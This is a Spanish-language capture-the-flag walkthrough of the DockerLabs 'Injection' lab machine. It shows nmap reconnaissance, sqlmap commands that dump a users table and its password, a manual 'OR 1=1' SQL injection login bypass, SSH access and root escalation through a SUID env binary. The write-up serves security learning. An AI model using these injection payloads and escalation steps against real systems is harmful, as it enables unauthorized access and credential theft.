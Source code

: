 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU
Nombre: Injection
Dificultad: muy fácil
Herramientas:
[[Ping]]
[[NMAP]]
[[WhatWeb]]
[[SQLMAP]]
[[Puerto 22 SSH - SFTP (TCP)]]



Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```

![[DockerLabs - Injection - Deploy.png]]

Ping para comprobar conectividad y ver el ttl: 64
![[DockerLabs - Injection - Ping.png]]

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![[DockerLabs - Injection - Nmap.png]]

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![[DockerLabs - Injection - Web.png]]

WhatWeb no nos da mucha información

![[DockerLabs - Injection - Whatweb.png]]

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![[DockerLabs - Injection - SQL Injection manual.png]]

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![[DockerLabs - Injection - Codigo consulta sin validar.png]]


Acceso con usuario dylan:
![[DockerLabs - Injection - User access.png]]

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:
![[DockerLabs - Injection - SSH dylan user.png]]


## Escalada de privilegios
sudo -l
![[DockerLabs - Injection - sudo-l.png]]

find / -perm -4000 2>/dev/null

![[DockerLabs - Injection - Suid.png]]

Buscamos en Gtfobins algunos de estos suid
![[DockerLabs - Injection - gtfobbins env.png]]
Encuentro env:
lo ejecutamos con las rutas absolutas


![[DockerLabs - Injection - Escalada de privilegiso.png]]

DockerLabs - Injection -